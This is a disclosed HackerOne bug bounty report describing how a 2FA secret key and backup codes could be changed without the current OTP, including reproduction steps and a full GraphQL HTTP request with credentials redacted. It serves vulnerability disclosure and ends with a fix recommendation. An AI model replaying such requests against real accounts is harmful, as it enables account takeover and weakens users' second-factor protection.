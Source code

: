 # Changing the 2FA secret key and backup codes without knowing the 2FA OTP

## Report Details
- **Report ID**: 1139535
- **URL**: https://hackerone.com/reports/1139535
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-29T06:25:48.715Z
- **Disclosed**: 2021-05-06T06:30:09.775Z

## Reporter
- **Username**: whhackersbr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
## Summary:

 After the setup of 2FA, disabling or editing it should require the 2FA OTP.
But it can be bypassed.

## Steps To Reproduce:

1) Sign in to a new HackerOne account.
2) Setup 2FA; and
3) Try to disable it without knowing the OTP.

You can't, you need to know the `Authentication Code` or `Backup Code`.

{F1246364}

Let's bypass it:

1) Open Google Authenticator and create a new account using `██████` as the setup key;
2) Sign in to your HackerOne account;
3) Replay the HTTP Request below (update `X-Auth-Token`, `password`, and `otp_code` using the OTP generated on Google Authenticator):

```
POST /graphql HTTP/1.1
Host: hackerone.com
content-type: application/json
X-Auth-Token: ******************************
Content-Length: 1221

{"operationName":"UpdateTwoFactorAuthenticationCredentials","variables":{"password":"******************************","otp_code":"******************************","signature":"f3a55d33972b3ac5433dc1ea3f36bed8b6813bf9","backup_codes":["b144ab9f9bc17195","09cc146d7a382931","95bd3133a5bab481","b54d2a14acc7ff0b","46f36d0d72096963"],"totp_secret":"███████","backup_code":"b144ab9f9bc17195"},"query":"mutation UpdateTwoFactorAuthenticationCredentials($password: String!, $otp_code: String!, $backup_code: String!, $totp_secret: String!, $backup_codes: [String]!, $signature: String!) {\n  updateTwoFactorAuthenticationCredentials(input: {password: $password, otp_code: $otp_code, backup_code: $backup_code, totp_secret: $totp_secret, backup_codes: $backup_codes, signature: $signature}) {\n    was_successful\n    errors(first: 100) {\n      edges {\n        node {\n          id\n          type\n          field\n          message\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    me {\n      id\n      remaining_otp_backup_code_count\n      totp_supported\n      totp_enabled\n      remaining_otp_backup_code_count\n      account_recovery_phone_number\n      __typename\n    }\n    __typename\n  }\n}\n"}
```

The 2FA secret key and backup codes will be changed.
You didn't need to know the old 2FA OTP to make the changes.

{F1246361}

4) Sign out and try to sign in again.
Now you need to use the new 2FA OTP, the old one doesn't work anymore.

## Recommendation:

Don't allow changes on 2FA configuration without confirming that the user knows the 2FA OTP.

## Impact

An attacker can change the 2FA secret key and backup codes without knowing the 2FA OTP of the victim.

## Attachments
- Captura_de_Tela_2021-03-29_a_s_03.16.57.png
- Captura_de_Tela_2021-03-29_a_s_03.21.15.png
